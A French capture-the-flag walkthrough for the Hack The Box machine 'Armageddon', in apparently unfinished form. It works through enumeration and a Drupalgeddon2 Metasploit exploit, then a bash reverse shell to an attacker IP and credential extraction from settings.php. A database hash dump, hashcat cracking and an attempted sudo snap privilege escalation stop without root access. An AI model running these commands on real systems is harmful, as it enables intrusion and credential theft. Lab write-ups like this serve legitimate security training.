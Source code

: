 - [Enumération](#enumération)
	- [Nmap](#nmap)
	- [Web](#web)
- [FootHold:](#foothold)
	- [Exploit - Drupalgeddon2](#exploit---drupalgeddon2)
	- [Upgrade du shell](#upgrade-du-shell)
- [User](#user)
	- [Crack du hash avec hashcat](#crack-du-hash-avec-hashcat)
- [Root](#root)

# Enumération

## Nmap

```
nmap armageddon -sV -p-



```



## Web 

```
whatweb armageddon.htb

http://armageddon.htb [200 OK] Apache[2.4.6], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16], IP[10.129.162.170], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.4.16], PasswordField[pass], PoweredBy[Arnageddon], Script[text/javascript], Title[Welcome to  Armageddon |  Armageddon], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.4.16]
```

CMS: Drupal 7

# FootHold: 

## Exploit - Drupalgeddon2

Il s'agit d'un site tournant sous Drupal 7, donc on essaie Drupalgeddon2 (qui est un exploit assez répendu sur ce CMS) 


	msfconsole

	use unix/webapp/drupal_drupalgeddon2
	set RHOST < ip victime > 
	set LHOST < ip attaquant >
	run 

Puis "shell" pour récupérer un shell

	shell

## Upgrade du shell 

Ouvrir un port en écoute sur notre kali:
	
	nc -lvnp 4444

Puis sur la machine "victime" envoyer un shell sur notre Kali au travers du port 4444

	bash -c 'bash -i >& /dev/tcp/10.10.14.72/4444 0>&1' &

Cepedant nous allons devoir nous contenter de ce shell, il ne semble pas possible de pouvoir upgrader le shelle à l'aide de python.

# User 

## Dump Hash 

Une fois connecté, on énumère les répertoires / fichiers à la recherche de credentials. En recherchant sur internet "where to find drupal password" un forum indique qu'il faut regarder dans `/var/html/sites/default/settings.php`. 

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
On essaie de se connecter à la base de donnée correspondante:

	mysql drupal --user=drupaluser --password=CQHEy@9M*m23gBVj

Cependant, nous n'avons pas un tty correct, alors cela ne marche pas. Utilsons l'optoon `-e` qui permet d'éxécuter des commandes 

```
mysql drupal --user=drupaluser --password=CQHEy@9M*m23gBVj -e 'show tables;'

mysql drupal --user=drupaluser --password=CQHEy@9M*m23gBVj -e 'select * from users;'
```

Nous obtenons donc:

	brucetherealadmin     $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

## Crack du hash avec hashcat

il s'agit d'un hash effectué avec Drupal7. 
En cherchant on tombe sur la méthode 7900 pour cracker ce genre de hash.

	hashcat -a 0 -m 7900 hash.txt /usr/share/wordlists/rockyou.txt -o crack.txt

On obtient donc:

	brucetherealadmin:booboo

On se connecte en SSH:

	ssh brucetherealadmin@armageddon.htb

# Root 

On regarde les droits que possède notre utilisateur:

```
sudo -l

Entrées par défaut pour brucetherealadmin sur armageddon :
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

L'utilisateur brucetherealadmin peut utiliser les commandes suivantes sur armageddon :
    (root) NOPASSWD: /usr/bin/snap install *
```

Nous pouvons éxécuter snap en tant que root. 
Sur gtfobins il existe une escalade de privilège au travers de ce binaire (https://gtfobins.github.io/gtfobins/snap/#sudo):

```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

# Puis

sudo snap install xxxx_1.0_all.snap --dangerous --devmode

```

L'exploit ne fontionne pas, fpm n'est pas installé sur la machine.

Nouvelle piste ... 
